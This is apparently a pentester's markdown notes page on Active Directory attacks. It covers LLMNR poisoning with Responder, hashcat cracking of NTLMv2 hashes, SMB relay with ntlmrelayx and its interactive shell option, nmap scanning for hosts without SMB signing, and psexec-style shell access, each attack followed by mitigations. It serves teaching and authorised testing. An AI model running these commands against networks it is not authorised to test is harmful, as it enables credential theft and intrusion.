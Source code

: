 ```yaml
---
layout: default
title: Active Directory Attack Vectors
nav_order: 2
has_children: false
parent: Active Directory
grand_parent: Pentesting
---
```


## Active Directory Attack Vectors


### LLMNR Poisoning

- Used to identify host when DNS is failing
- Previously called NBT-NS
- When we respond to this service, it respond with a username and the hashes

![LLMNR Poisoning](/writings/docs/assets/LLMNR.png)
![](docs/assets/LLMNR.png)

#### Responder (Capture NTLMv2 hashes)

The first step to perform this attack is to run [responder](https://github.com/lgandx/Responder).

It could be installed with [impacket toolkit](https://github.com/fortra/impacket).

It is the first tool to launch when starting an assignment.

Example using the `eth0` interface: 
```bash
python Responder.py -I eth0 -rdwv
```

When an event occurs, we receive the information about the user performing it, including his hash.

#### Crack NTLMv2 hashes

When we retrieve the hash we are going to crack it:

```bash
hashcat -m 5600 hashes.txt rockyou.txt
```


#### LLMNR Mitigation

- Disable LLMNR and NBT-NS
- Enable Network Access Control (NAC)
- Require strong user policy (to avoid the cracking)


### SMB Relay

- Instead of cracking the hash, relay them
- Need SMB signing to be disabled
- Relayed credentatials must be admin on the targeted machine

![SMB Relay](/writings/docs/assets/SMB_Relay.png)![](docs/assets/SMB_Relay.png)

#### Update responder

Updating the `Responder.conf` file by putting the `SMB` and `HTTP` value to `Off`

#### Start responder

We start responder like before, but now the SMB and HTTP server is off:

```bash
python Responder.py -I eth0 -rdwv
```

#### Find targets

Targets must have smb signing disabled, to detect hosts having this particularity, we can use nmap:

```bash
nmap --script=smb2-security-mode.nse -p445 $IP/$RANGE
```

Then we can add the lists of hosts in a file called `targets.txt`. 

#### Start the relay

Then we start the service in charge of the relay: 

```bash
python ntlmrelayx.py -tf targets.txt -smb2support
```

Once it's running, the relay will relay the hash to the other machine and if the connection is established, the SAM hashes are extracted from the host. (hashes of the local user on the computer)

##### Shell access

To update the usage to prompt a shell access we could add the `-i` option to the relay: 
```bash
python ntlmrelayx.py -tf targets.txt -smb2support -i
```

We should see log indicating that a connection is open on a port.

To connect we use netcat:

```bash
netcat 127.0.0.1 11000
```

Then we are inside the smb shell of the corresponding server. 

#### SMB relay mitigation

- Enable SMB signing on every machine (decrease speed of transfer)
- Disable NTLM authentication on the network
- Implement account tierring 
- Restrict permission to local admin

### Gaining Shell Access 

As we might have retrieve credentail from previous section, we could use metasploit and `psexec`to gain a shell access. 

We could also use part of the impacket toolkit: 
- `psexec.py`
- `smbexec.py`
- `wmiexec.py`


### References:

- [https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa) 